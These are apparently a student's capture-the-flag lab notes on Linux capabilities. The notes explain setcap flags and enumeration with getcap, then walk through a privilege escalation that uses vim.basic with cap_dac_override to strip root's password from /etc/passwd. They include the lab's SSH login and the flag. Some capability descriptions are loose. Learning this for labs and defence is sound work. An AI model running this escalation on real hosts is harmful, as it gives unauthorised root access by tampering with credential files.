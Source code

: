 # Capabilities

Linux capabilities are specific privileges to be granted to processes, allowing them to perform specific actions that would otherwise be restricted.

One common vulnerability is using capabilities to grant privileges to processes that are not adequately sandboxed or isolated from other processes, allowing us to escalate their privileges and gain access to sensitive information or perform unauthorized actions.

Another potential vulnerability is the misuse or overuse of capabilities, which can result in processes having more privileges than they need. 

## Set Capability

sudo setcap cap_net_bind_service=+ep /usr/bin/vim.basic

--> the binary will be able to bind to network ports, which is a privilege usually restricted

cap_sys_admin : Allows to perform actions with administrative privileges, such as modifying system files or changing system settings.
cap_sys_chroot : Allows to change the root directory for the current process, allowing it to access files and directories that would otherwise be inaccessible.
cap_sys_ptrace : Allows to attach to and debug other processes, potentially allowing it to gain access to sensitive information or modify the behavior of other processes.
cap_sys_nice : Allows to raise or lower the priority of processes, potentially allowing it to gain access to resources that would otherwise be restricted.
cap_sys_time : Allows to modify the system clock, potentially allowing it to manipulate timestamps or cause other processes to behave in unexpected ways.
cap_sys_resource : Allows to modify system resource limits, such as the maximum number of open file descriptors or the maximum amount of memory that can be allocated.
cap_sys_module : Allows to load and unload kernel modules, potentially allowing it to modify the operating system's behavior or gain access to sensitive information.
cap_net_bind_service : Allows to bind to network ports, potentially allowing it to gain access to sensitive information or perform unauthorized actions.

=	sets the specified capability for the executable, but does not grant any privileges. (useful to clear capabilities)
+ep grants effective and permitted privileges for the specified capability to the executable
+ei	grants sufficient and inheritable privileges for the specified capability to the executable + child processes spawned
+p	grants the permitted privileges for the specified capability to the executable

## Enumerating Capabilities

find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;

/usr/bin/vim.basic cap_dac_override=eip
/usr/bin/ping cap_net_raw=ep
/usr/bin/mtr-packet cap_net_raw=ep

## Exploitation

0) check capabilities of the binary
getcap /usr/bin/vim.basic

/usr/bin/vim.basic cap_dac_override=eip

1) check the targeted file we want to edit
cat /etc/passwd | head -n1

root:x:0:0:root:/root:/bin/bash

2) check the capability
/usr/bin/vim.basic /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

3) escalate privilege to perform action (here root account will not require a password anymore)
echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd

cat /etc/passwd | head -n1
root::0:0:root:/root:/bin/bash

## LAB

ssh htb-student@10.129.205.111
HTB_@cademy_stdnt!

find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/vim.basic = cap_dac_override+eip

/usr/bin/vim.basic /etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin

echo -e ':%s/^root:[^:]*:/root::/\nwq' | /usr/bin/vim.basic -es /etc/passwd

cat /etc/passwd | head -n1
root:x:0:0:root:/root:/bin/bash

/usr/bin/vim.basic /root/flag.txt
HTB{c4paBili7i3s_pR1v35c}
